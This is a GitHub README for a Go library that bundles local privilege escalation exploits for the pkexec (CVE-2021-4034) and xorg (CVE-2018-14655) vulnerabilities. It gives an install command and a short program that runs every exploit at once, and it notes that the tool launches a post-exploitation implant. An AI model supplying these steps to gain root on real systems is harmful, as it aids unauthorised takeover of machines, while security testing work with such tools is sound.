 # go-lpe
A collection of LPE exploits written in Go

## Exploits

| CVE        | Description                                                                        | Link                                          |
|------------|------------------------------------------------------------------------------------|-----------------------------------------------|
| 2021-4034  | pkexec, using `execve` syscall in Go doesn't work, so we just run blasty's exploit | https://haxx.in/files/blasty-vs-pkexec.c      |
| 2018-14655 | xorg, it's a demo, it works in a few environments with certain xorg versions       | https://www.cvedetails.com/cve/CVE-2018-14655 |

## Usage

```bash
go get -u -v github.com/jm33-m0/go-lpe
```

```go
package main

import (
    golpe "github.com/jm33-m0/go-lpe"
)

func main() {
    golpe.RunAll()
}
```

Please note that this tool tries to execute `./emp3r0r -replace`, if you want it to execute other stuff, just write a wrapper

